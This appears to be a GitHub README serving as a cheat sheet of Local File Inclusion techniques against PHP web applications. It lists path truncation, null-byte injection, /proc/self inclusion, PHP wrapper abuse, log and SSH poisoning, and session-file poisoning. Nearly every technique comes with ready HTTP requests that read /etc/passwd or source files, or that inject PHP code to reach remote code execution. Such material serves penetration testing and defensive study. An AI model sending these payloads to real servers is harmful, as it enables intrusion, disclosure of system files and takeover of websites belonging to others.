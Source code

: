 ### Description

Here are some techniques which can be helpful when exploiting the case of a LFI. Thanks to: _lavalamp, smiegles, arr0way, d.w., swisskey, rawsec_cyber, j.adriaans  This is a handy version of my article on Medium ([Link](https://medium.com/bugbountywriteup/cvv-1-local-file-inclusion-ebc48e0e479a)).

* Useful tool: [LFISuite](https://github.com/D35m0nd142/LFISuite)

### Techniques
**[1] Path Truncation**  
Bypassing an extension-check by pushing the URL over its size (*4096* bytes)
```
GET file.php?name=../../etc/passwd/././././././././/././././././././././[ and so on ]
```

**[2] Nullbyte Injection**  
Bypassing an extension-check on PHP <= *v.5.3* environment through a nullbyte (=end of string)
```
GET file.php?name=../../etc/passwd%00
```

**[3] /proc/self**  
Expanding to RCE by setting and including the environment-var "User-Agent" through /proc/self (Apache2)
```
GET file.php?name=../../proc/self/environ
User-Agent: <?php phpinfo(); ?>
```
Expanding to RCE by including open file-descriptors (e.g. error-log) used by the current process (Apache2)
```
GET file.php?name=../../proc/self/fd/[ id; bruteforce them ]
Referer: <?php phpinfo(); ?>
```
**[4] PHP wrapper**  
Expanding to RCE by using different PHP wrappers to access I/O streams
```
POST file.php?name=php://input
<?php phpinfo(); ?>
---
GET file.php?name=php://filter/convert.base64-encode/resource=../index.php 
GET file.php?name=php://filter/read=string.rot13/resource=../index.php 
---
cmd: zip archive.zip payload.php ("<?php phpinfo(); ?>"), upload it to the server, optional: mv archive.zip image.jpg
GET file.php?name=zip://../uploads/archive.zip%23payload.php
```

**[5] Log poisoning**  
Expanding to RCE by pushing payload into log-files and including them
```
GET non-existent-file.php
Referer: <?php phpinfo();?>
---
GET file.php?name=../../var/log/nginx/error_log
```
Abusing the SSH daemon
```
ssh <?php phpinfo();?>@[ ip of target ]
--
GET file.php?name=../../var/log/auth.log
```

**[6] PHP Sessions**  
Expanding to RCE by storing the payload into the session, retrieving the session-file
 ```
POST login.php 
username=<?php phpinfo();?>&password=test
---
GET vulnerable.php?filename=../../var/lib/php[ version 5/7 ]/sess_[ session-id ]
```

**[7] phpinfo()**  
Expanding to RCE by abusing temporary file-creation of phpinfo()'s debug.
"LFISuite" can do that.
